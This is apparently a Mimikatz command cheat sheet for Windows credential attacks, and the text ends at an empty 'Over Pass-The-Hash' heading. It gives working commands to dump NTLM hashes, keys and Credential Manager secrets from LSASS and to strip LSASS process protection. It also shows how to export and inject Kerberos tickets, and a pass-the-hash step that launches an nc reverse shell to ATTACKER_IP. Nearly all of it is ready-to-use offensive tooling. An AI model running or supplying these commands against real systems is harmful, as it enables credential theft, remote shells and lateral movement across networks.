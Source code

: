 ##### Extract NTLM Hashes from LSASS memory

```
privilege::debug
token::elevate
sekurlsa::msv

```
##### Dump Protected LSASS memory

```
sekurlsa::logonpasswords
processprotect /process:lsass.exe /remove
sekurlsa::logonpasswords
```

##### Credential Manager

```
privilege::debug
sekurlsa::credman
```

##### Extract Tickets from LSASS memory

```
privilege::debug
sekurlsa::tickets /export
```


##### Extract Keys from memory

```
privilege::debug
sekurlsa::ekeys
```

##### PTH

```
token::revert
sekurlsa::pth /user:fcastle /domain:GEMY.local /ntlm:2b576acbe6bcfda7294d6bd18041b8fe /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
// To receive the reverse shell
nc -lvp 5555
```

##### PTT

```
kerberos::ptt ticket_name
// To check if the tickets were correctly injected
kerberos::list
```


##### PTK (Over Pass-The-Hash)
